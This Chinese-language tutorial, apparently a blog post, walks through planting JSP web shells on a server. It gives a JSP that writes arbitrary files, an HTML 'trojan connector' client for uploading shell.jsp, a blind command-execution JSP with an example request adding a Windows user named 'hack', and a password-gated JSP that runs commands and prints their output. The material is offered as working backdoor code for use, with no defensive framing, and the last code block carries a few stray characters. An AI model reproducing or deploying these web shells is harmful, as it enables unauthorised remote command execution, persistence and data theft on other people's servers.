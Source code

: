 先把下面的代码保存为 one.jsp (该代码的作用是可以在当前目录下生成另外一个指定的文件)，然后上传到服务器



```
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>
```




然后将下面的代码保存为 .html 格式的，直接双击本地打开。这是作为客户端去连接我们刚刚上传的one.jsp的



```
<html><head><title>JSP一句话木马客户端</title></head><div align=center>  <font color=red>专用JSP木马连接器</font><br><form name=get method=post>服务端地址<input name=url size=110 type=text>  <br><br><textarea name=t rows=20 cols=120>你要提交到服务器的代码</textarea><br>要保存成的文件名：<input name=f size=30 value=shell.jsp><input type=button onclick="javascript:get.action=document.get.url.value;get.submit()" value=提交> </form>  <br>服务端代码：<br><textarea rows=5 cols=120><%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>   </textarea>  </div></body>
```




 我们双击打开该html文件



![](https://img-blog.csdnimg.cn/2019011613473011.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**无回显执行命令**



将下面的命令保存为 a.jsp，然后上传到服务器



```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```




访问链接：[http://127.0.0.1:8080/EShop/a.jsp?i=net user hack 123 /add](http://127.0.0.1:8080/EShop/a.jsp?i=net%20user%20hack%20123%20/add "http://127.0.0.1:8080/EShop/a.jsp?i=net user hack 123 /add") 



![](https://img-blog.csdnimg.cn/20190116113325997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**有回显带密码执行命令**



将下面的命令保存为 b.jsp，然后上传到服务器



```
<%      
    if("b".equals(request.getParameter("pwd"))){      
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();      
        int a = -1;      
        byte[] b = new byte[2048];      
        out.print("<pre>");      
        while((a=in.read(b))!=-1){      
            out.println(new String(b));      
        }      1
        out.print("</pre>");      1
    }      1
%>
```